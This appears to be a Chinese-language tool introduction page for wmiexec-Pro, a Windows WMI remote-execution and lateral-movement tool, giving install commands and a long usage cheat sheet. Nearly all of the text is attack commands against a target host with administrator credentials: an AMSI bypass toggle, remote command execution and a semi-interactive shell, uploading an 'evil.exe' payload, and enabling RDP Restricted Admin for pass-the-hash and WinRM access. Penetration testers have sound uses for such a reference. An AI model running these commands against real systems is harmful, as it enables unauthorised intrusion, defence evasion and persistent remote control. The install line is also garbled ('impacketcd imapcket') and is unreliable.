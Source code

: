   * 新模块：RID-劫持

  * 增强：以新方式获取命令执行输出

  * 增强功能：执行 vbs 文件

 **03**

 **工具安装**

 **安装**

  *   *   * 

    
    
     git clone https://github.com/fortra/impacketcd imapcket && sudo pip3 install .git clone https://github.com/XiaoliChan/wmiexec-Pro

 **使用**  

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
     python3 wmiexec-pro.py [[domain/]username[:password]@]<targetName or address> module -h  
    Basic enumeration:   python3 wmiexec-pro.py administrator:password@192.168.1.1 enum -run  
    Enable/disable amsi bypass:   python3 wmiexec-pro.py administrator:password@192.168.1.1 amsi -enable   python3 wmiexec-pro.py administrator:password@192.168.1.1 amsi -disable  
    Execute command:   python3 wmiexec-pro.py administrator:password@192.168.1.1 exec-command -shell (Launch a semi-interactive shell)   python3 wmiexec-pro.py administrator:password@192.168.1.1 exec-command -command "whoami" (Default is with output mode)   python3 wmiexec-pro.py administrator:password@192.168.1.1 exec-command -command "whoami" -silent (Silent mode)   python3 wmiexec-pro.py administrator:password@192.168.1.1 exec-command -command "whoami" -silent -old (Slient mode in old version OS, such as server 2003)   python3 wmiexec-pro.py administrator:password@192.168.1.1 exec-command -command "whoami" -old (With output in old version OS, such as server 2003)   python3 wmiexec-pro.py administrator:password@192.168.1.1 exec-command -command "whoami" -save (With output and save output to file)   python3 wmiexec-pro.py administrator:password@192.168.1.1 exec-command -command "whoami" -old -save   python3 wmiexec-pro.py administrator:password@192.168.1.1 exec-command -clear (Remove temporary class for command result storage)   Filetransfer:   python3 wmiexec-pro.py administrator:password@192.168.1.1 filetransfer -upload -src-file "./evil.exe" -dest-file "C:\windows\temp\evil.exe" (Upload file over 512KB)   python3 wmiexec-pro.py administrator:password@192.168.1.1 filetransfer -download -src-file "C:\windows\temp\evil.exe" -dest-file "/tmp/evil.exe" (Download file over 512KB)   python3 wmiexec-pro.py administrator:password@192.168.1.1 filetransfer -clear (Remove temporary class for file transfer)   RDP:   python3 wmiexec-pro.py administrator:password@192.168.1.1 rdp -enable (Auto configure firewall)   python3 wmiexec-pro.py administrator:password@192.168.1.1 rdp -enable -old (For old version OS, such as server 2003)   python3 wmiexec-pro.py administrator:password@192.168.1.1 rdp -enable-ram (Enable Restricted Admin Mode for PTH, not support old version OS, such as server 2003)   python3 wmiexec-pro.py administrator:password@192.168.1.1 rdp -disable   python3 wmiexec-pro.py administrator:password@192.168.1.1 rdp -disable -old (For old version OS, such as server 2003, not support old version OS, such as server 2003)   python3 wmiexec-pro.py administrator:password@192.168.1.1 rdp -disable-ram (Disable Restricted Admin Mode)  
    WinRM (Only support win7+):   python3 wmiexec-pro.py administrator:password@192.168.1.1 winrm -enable   python3 wmiexec-pro.py administrator:password@192.168.1.1 winrm -disable  